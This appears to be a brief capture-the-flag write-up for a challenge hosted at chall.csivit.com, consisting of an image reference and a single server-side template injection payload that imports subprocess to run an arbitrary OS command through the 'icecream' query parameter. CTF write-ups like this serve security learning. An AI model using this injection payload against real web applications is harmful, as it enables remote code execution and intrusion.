 **Challenge:** http://chall.csivit.com:30279

SSTI leading to RCE: `http://chall.csivit.com:30279/?icecream={{__import__("subprocess").getoutput("<OS COMMAND HERE>")}}`
